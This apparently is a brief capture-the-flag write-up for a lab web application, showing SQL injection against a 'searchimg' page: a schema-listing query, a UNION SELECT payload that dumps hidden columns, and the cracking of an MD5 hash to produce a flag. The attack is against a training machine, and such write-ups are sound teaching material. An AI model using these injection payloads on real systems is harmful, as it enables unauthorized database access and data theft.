 We have a form to fill at the page "http://192.168.56.102/?page=searchimg".

It looks like backend use the input from it right in an SQL statement. So we can use it for an "injection".

Let's take a look on schema:

SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names:

Let's see what is inside the hidden columns:

1 AND 1=2 UNION SELECT id, CONCAT(title, comment) FROM list_images;

1928e8083cf461a51303633093573c46 >> md5 >> albatroz >> lower() >> sh256 >> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
